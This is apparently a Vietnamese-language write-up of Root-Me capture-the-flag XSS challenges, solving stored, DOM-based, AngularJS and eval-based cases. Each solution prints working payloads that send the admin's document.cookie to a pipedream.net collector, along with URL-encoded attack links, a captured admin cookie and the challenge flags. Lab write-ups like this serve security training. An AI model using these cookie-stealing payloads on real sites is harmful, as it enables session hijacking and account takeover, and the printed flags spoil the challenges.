 # Trần Mạnh Huy

* [Chall 1:	XSS - Stored 1](#chall-1-xss---stored-1)
* [Chall 2: XSS - Stored 2](#chall-2-xss---stored-2)
* [Chall 3: XSS DOM Based - Introduction](#chall-3-xss-dom-based---introduction)
* [Chall 4: XSS DOM Based - AngularJS](#chall-4-xss-dom-based---angularjs)
* [Chall 5: XSS DOM Based - Eval](#chall-5-xss-dom-based---eval)
* [Chall 6: XSS - Reflected](#chall-6-xss---reflected)
* [Chall 7: XSS DOM Based - Filters Bypass](#chall-7-xss-dom-based---filters-bypass)
*
*


## Chall 1: Xss - Stored 1

```
Statement
Steal the administrator session cookie and use it to validate this chall.

```

Đây là 1 chall đơn giản về stored xss. Có 2 phần nhập title và message, gửi abcd ở cả 2 rồi check source bên burpsuite.
Có vẻ tiêm được script nên test luôn: <script>alert(1)</script>, và alert được, vậy thì triển tiếp thôi.

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/xss_02.jpg)


Ý tưởng là ta sẽ lưu scipt cướp cookie ở form message và ngồi đợi thằng admin đến đọc cái message đó và bay màu.

Truyền payload vào message để lấy cookie: <script>document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".cocat(documemt.cookie)</script>

Ở đây dùng đường dẫn trên pipedream kết hợp với concat để nối thực hiện chuỗi, được server trả về kết quả:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/xss_03.jpg)


> Flag: _ga=GA1.1.73691999.1669083110


## Chall 2: XSS - Stored 2

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_01.jpg)

Vẫn như bài trước cho ta 2 phần nhập nhưng thêm 1 số tính năng, và giờ title và message đã bị encode html enities nên kh thực hiện xss được ở đây.

Nếu để ý kĩ, mình sẽ thấy giá trị cookie status=invite đang được hiện thị trên page và không bị fitler html entities. Ta có thể tận dụng ở đây để thực hiện xss

#### Payload: Cookie: status="><script>alert(1)</script>

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_04.jpg)

Thực hiện alert thành công, tương tự như bài trước ta gửi payload:

> "><script>document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".concat(document.cookie)</script>

Ta nhận được cookie trả về :

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_03.jpg)

Có được cookie rồi ta ném vào ?section=admin để lấy flag

> COOKIE: status=invite;ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_04.jpg)

> FLag: E5HKEGyCXQVsYaehaqeJs0AfV

## Chall 3: XSS DOM Based - Introduction

```
Steal the admin’s session cookie.

```
Source:
```
<script>
var random = Math.random() * (99);
var number = '12';
if(random == number) {
    document.getElementById('state').style.color = 'green';
    document.getElementById('state').innerHTML = 'You won this game but you don\'t have the flag ;)';
}
else{
    document.getElementById('state').style.color = 'red';
    document.getElementById('state').innerText = 'Sorry, wrong answer ! The right answer was ' + random;
}
</script>

```

Ở đây ta đang có param number nhận input đầu vào, mình thử 1 số bất kì, và trang nó render như sau:

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_01.jpg)

Đây là 1 chall đơn giản để giới thiệu về dom-based nên không có filter gì cả, ta sẽ chèn script mình vào thông qua cái param number và bởi vì nó là dom nên đoạn mã độc được sẽ được thực thi bởi đoạn Javascript phía client mà không cần server xử lý request:

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_02.jpg)

Thực hiện alert được rồi thì tấn công thôi:

>Script: '; document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".concat(document.cookie) ;//

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_03.jpg)

Gửi đường dẫn vào phần contact: http://challenge01.root-me.org/web-client/ch32/index.php?number=123%27%3B+document.location%3D%22https%3A%2F%2Feo7xxasp6lhfvaj.m.pipedream.net%2F%3Fc%3D%22.concat%28document.cookie%29+%3B%2F%2F

Ta được flag trả về:  

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_04.jpg)

> flag: rootme{XSS_D0M_BaSed_InTr0}


## Chal 4: XSS DOM Based - AngularJS
```
Steal the admin’s session cookie.

```
Đạp vào mắt ta là 2 phần main và contact, 1 cái thì để xss còn cái còn lại là gửi cho con bot rồi. Triển thôi:

![]()

Đầu tiên phải alert được đã, đọc source:

```
   <p id="name_encoded">Result for  abcd:</p>
        <script>
            var name = ' abcd';
            var encoded = '';
            for(let i = 0; i < name.length; i++) {
                encoded += name[i] ^ Math.floor(Math.random() * name.length);
            }
            encoded = Math.abs(encoded ^ Math.floor(Math.random() * name.length));
            document.getElementById('name_encoded').innerText += ' ' + encoded;
        </script>
        
 ```

Cái ta cần bypass ở đây là truyền sao cho vượt qua được giá trị var name, ví dụ thành var name = '' ; alert(1) -- . Nhưng có vẻ ' bị mã hóa rồi.
Ta dùng script sau: 

```
{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(97,108,101,114,116,40,49,41))()}}

```
>Reference: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md

![image](https://user-images.githubusercontent.com/104350480/218153267-ba81ca39-fbe3-4094-94a1-51de61b14277.png)

Sau khi alert được ròi thì ta làm tương tự như trên thôi, ta sẽ gửi đường link kèm theo payload xss và khi thằng admin truy cập vào thì payload sẽ được trigger dưới session của admin:

> Payload: 	
http://challenge01.root-me.org/web-client/ch35/?name={{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,61,34,104,116,116,112,115,58,47,47,101,111,55,120,120,97,115,112,54,108,104,102,118,97,106,46,109,46,112,105,112,101,100,114,101,97,109,46,110,101,116,47,63,99,61,34,46,99,111,110,99,97,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41))()}}

Được flag trả về:


![image](https://user-images.githubusercontent.com/104350480/218155614-d3be95db-d5b1-4df7-bcb3-a6e268a5df48.png)

>Flag: rootme{@NGu1@R_J$_1$_C001}

## Chall 5: XSS DOM Based - Eval

```
A bad practice ...
Steal the admin’s session cookie.

```

Tiếp tục là chall về xss, bài này có liên quan đến hàm eval, ta cần nhập 1 phép tính, nếu kh sẽ kh thực hiện được

![image](https://user-images.githubusercontent.com/104350480/218157778-248d5be0-644e-4639-890f-f89f81ae2434.png)

![image](https://user-images.githubusercontent.com/104350480/218158292-9f278129-789a-4dc1-ba15-0082eea0a011.png)

Xem qua source code thì có vẻ ta cần bypass qua hàm eval là xong chall này, ngoài ra kh thể sử dụng () vì đã bị liệt vào blacklist

![image](https://user-images.githubusercontent.com/104350480/218158578-3ebbc272-495d-40f3-8ac6-77c79bcab51f.png)

![image](https://user-images.githubusercontent.com/104350480/218159000-894d3387-bc3e-4591-938f-f50fcfb8993e.png)


Mục tiêu đầu tiên vẫn phải là alert đã, nhưng có 1 cái ta có thể chú ý:

![image](https://user-images.githubusercontent.com/104350480/218159511-3d90e8ec-bd2c-46e1-803e-be32a1c94d8b.png)

Đúng vậy, regex chỉ yêu cầu 1 phép tính là được + - * / giữa 2 số là được, kh dùng được () nên tấn công luôn:

```

Payload: 1+1, document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c="+document.cookie 
Gửi qua contact: http://challenge01.root-me.org/web-client/ch34/?calculation=1%2B1%2C+document.location%3D%22https%3A%2F%2Feo7xxasp6lhfvaj.m.pipedream.net%2F%3Fc%3D%22%2Bdocument.cookie

![image](https://user-images.githubusercontent.com/104350480/218165627-02281d8d-64fc-4ab1-9c1a-e0b6711aef66.png)

```

> Flag: rootme{Eval_Is_DangER0us}
